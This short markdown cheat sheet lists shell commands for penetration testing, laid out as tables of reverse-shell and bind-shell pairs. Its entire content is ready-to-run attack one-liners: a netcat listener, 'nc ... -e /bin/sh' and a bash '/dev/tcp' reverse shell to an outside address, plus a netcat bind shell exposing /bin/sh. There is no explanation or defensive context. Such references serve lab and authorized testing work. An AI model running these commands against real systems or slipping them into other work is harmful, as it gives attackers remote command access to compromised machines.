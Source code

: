 # Shells

## Reverse shell

| tool           | local                 |      | remote                         |
|----------------|-----------------------|------|--------------------------------|
| netcat         | nc -lvp 4444          |  <-  | nc 192.168.1.1 4444 -e /bin/sh |
| netcat <br> sh | nc -lvp 4444          |  <-  | bash -i >& /dev/tcp/10.0.0.1/4444 0>&1 |

## Bind shell

| tool   | local                 |      | remote                         |
|--------|-----------------------|------|--------------------------------|
| netcat | nc 192.168.1.2 4444   |  ->  | nc -lvp 4444 -e /bin/sh        |
